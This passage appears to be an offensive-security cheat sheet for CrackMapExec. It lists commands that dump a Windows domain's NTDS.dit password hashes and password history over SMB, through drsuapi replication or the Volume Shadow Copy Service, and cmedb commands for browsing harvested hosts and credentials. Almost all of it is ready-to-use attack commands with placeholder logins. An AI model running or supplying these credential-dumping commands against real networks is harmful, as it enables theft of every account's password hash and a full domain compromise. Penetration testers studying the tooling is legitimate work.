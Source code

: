 # Uses drsuapi RPC interface create a handle, trigger replication
# and combined with additional drsuapi calls to convert the resultant 
# linked-lists into readable format
crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds

# Uses the Volume Shadow copy Service
crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss

# Dump the NTDS.dit password history
smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history

Using the database

# The database automatically store every hosts reaches by CME and all credentials with admin access
$ cmedb

# Using workspaces
cmedb> workspace create test
cmedb> workspace test

# Access a protocol database and switch back
cmedb (test)> proto smb
cmedb (test)> back

# List stored hosts
cmedb> hosts

# View detailed infos for a specific machine (including creds)
cmedb> hosts <hostname>

# Get stored credentials
cmedb> creds

# Get credentials access for a specific account
cmedb> creds <username>
